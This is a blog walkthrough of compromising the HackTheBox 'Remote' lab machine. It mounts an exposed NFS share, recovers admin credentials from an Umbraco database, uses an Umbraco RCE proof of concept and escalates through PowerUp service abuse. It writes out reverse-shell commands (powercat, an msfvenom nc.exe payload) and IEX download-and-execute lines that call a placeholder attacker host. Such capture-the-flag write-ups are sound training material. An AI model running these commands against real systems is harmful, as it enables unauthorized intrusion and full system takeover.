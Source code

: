 ```yaml
---
layout: post
title: HackTheBox Remote walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, powercat, powerup, nfs, netcat, powershell, windows, msfvenom, oscp]
comments: true
---
```


Remote is a HacktheBox windows machine with the ip address 10.10.10.180. Rated as easy on the platform, this machine is highly [CVE](https://cve.mitre.org/about/cve_and_nvd_relationship.html) oriented and similar of what you would encounter in an OSCP exam. I got a foothold on the machine using an authenticated remote code execution on the web server and elevate my privilege through an insecure file permission vulnerability. This box is fun and great to get familiar with windows privilege escalation.

![info_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3b4dc061e2b548afb1e48a934e076f09.png)


# Enumeration

I started with multiple port scans.
## Port scans

![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/b7bc801733c0425ab5820880a68c5c86.png)


![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c6a91f46435c4725bc4b7c6678a4d996.png)


A lot of ports were opened and the enumeration phase can be very time consuming in a penetration test. In order to manage my time efficiently, I spent no longer than 30 minutes on each port and focus my attention in this order:
- Port 80/5985/47001 because they are webservers.
- Port 21, Anonymous login is allowed, I might be able to upload or download files.
- Port 111/2049 NFS is insecure by design and drives are mounted.
- Port 445 - Samba or SMB can provide very useful information but I need credentials to log in.
- Other ports ...

### Port 80

I found a login page using Umbraco CMS.

![umbraco_login_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16a50ddcc8054aa5b2bb76c7e12826c8.png)

### Port 111

Network File System (NFS) allow users on client computers to access files over the network as if they were on locally mounted storage. NFS is insecure by design. It's not uncommon to see storage open to the world because of miss configurations.

I used NSE Nmap scripts to discover the name of the mount directory.

![nfs_nse_sancs.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16cf451fc34d48f58e8d9fb9c7ecd362.png)

I mount the remote drive to a directory.
```bash
mkdir site-backups
sudo mount -o nolock 10.10.10.180:/site-backups $PWD/site-backups
```

Found the Umbraco database in a compact file format ([SDF](https://fileinfo.com/extension/sdf)). *This was the most tricky part in my opinion, things could have become difficult without the knowledge of this file format*.

![found_umbraco.sdf.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8e6c12f1220145e49ab23e099404e464.png)

I extracted the credentials from the raw data and decrypt the password hash [online](https://md5decrypt.net/Sha1/).

![database_content.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/889460b74eb44aa6881903bfcbceaa13.png)

Clair text password:
```plaintext
username: admin@htb.local
password: baconandcheese 
```


# Foothold

I found Umbraco CMS verson with `grep -iR "7.12.4"`. This version were vulnerable to an [authenticated remote code execution](https://www.exploit-db.com/exploits/46153) so I downloaded [noraj Umbraco POC](https://github.com/noraj/Umbraco-RCE). Since I didn't know what was the privileges of the user I was exploiting I executed the `powercat.ps1` script without saving the file on the remote file system by combining the **DownloadString** methode with the **Invoke-Expression** cmdlet ([IEX](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)).

Listen for connections:
```bash
sudo nc -lnvp 4444
```

Modified powercat script. Replace the Xs with your ip address.
```bash
cp /usr/share/windows-resources/powercat/powercat.ps1 .
echo 'powercat -c X.X.X.X -p 4444 -e cmd.exe' >> powercat.ps1
```

Extended the powercat directory to be accessible from the server.
```bash
sudo python3 -m http.server
```

Exploit umbraco vulnerability.
```bash
sudo python3 Umbraco-RCE/exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/powercat.ps1')"
```

![foothold_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/31186d2bc4ed47d3bd4bdec20ba4040d.png)

# Privilege escalation

**Insecure file permission** on services that run as `nt authority\system` are often an easy way to elevate privileges. 

I created a binary with **msfvenom** to replace the vulnerable service.
```bash
msfvenom -p windows/x64/exec CMD="C:\Windows\Temp\nc.exe -e cmd.exe X.X.X.X 9001" -f exe -o evil.exe
```

In order to execute all the Powershell commands in the same session, I opened a Powershell interpreter and moved to a writable directory.
```powershell
powershell.exe
cd c:\windows\temp
```

HarmJ0y `PowerUp.ps1` script from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) github repository is an awnsome tool. It uses several tehcniques base on misconfugurations such as unquoted services paths and improper permission on service executables to attent elevate privileges.

I upload PowerUp script into the server and executed Invoke-AllChecks function.
```powershell
iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/PowerUp.ps1')
Invoke-AllChecks
```


![Invoke-AllChecks.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/23ebf8a49b9a47c3b0318d62251b45bc.png)



Downloaded the binary and netcat to the server.
```powershell
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/evil.exe', 'c:\\Windows\\Temp\\evil.exe')
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/nc.exe', 'c:\\Windows\\Temp\\nc.exe')
```

Open a port for reverse shell connections on my machine.
```bash
sudo nc -lvnp 9001
```

And finaly executed `Invoke-ServiceAbuse` function to run the exploit.
```powershell
Invoke-ServiceAbuse -Name 'UsoSvc' -Command 'C:\Windows\Temp\evil.exe'
```



![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/ddb212d55d1446a4b37e3c57c8b606c8.png)

Thanks for reading !

# References
- [https://fileinfo.com/extension/sdf](https://fileinfo.com/extension/sdf)
- [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)
- [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)
- [https://md5decrypt.net/Sha1/](https://md5decrypt.net/Sha1/)
- [https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)
- [https://cve.mitre.org/about/cve_and_nvd_relationship.html](https://cve.mitre.org/about/cve_and_nvd_relationship.html)
